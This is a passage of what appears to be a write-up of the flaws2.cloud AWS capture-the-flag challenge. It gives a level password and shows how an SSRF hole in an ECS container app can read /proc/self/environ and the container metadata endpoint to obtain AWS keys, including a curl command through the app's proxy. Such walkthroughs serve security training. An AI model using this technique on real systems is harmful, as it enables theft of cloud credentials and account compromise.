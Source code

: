
![](CLOUD/Screenshot%202019-11-07%20at%202.54.40%20AM.png)

Use the username flaws2 and password secret_password.

It will give access to next challenge 

 `http://level3-oc6ou6dnkw8sszwvdrraxc5t5udrsw3s.flaws2.cloud`


**| 3. SSRF in ECS**

Given a container application with ssrf vulnerability 

Container metadata credentials can be found in http://169.254.170.2/v2/credentials/GUID
where the GUID is found from an environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI

In linux env variables can be found by looking in /proc/self/environ.

![](CLOUD/Screenshot%202019-11-09%20at%205.46.16%20PM.png)

Use the GUID to find was secret and access key 

```
curl http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/9c3439c4-b560-4aac-aa62-f904a24a34e6 | jq
```
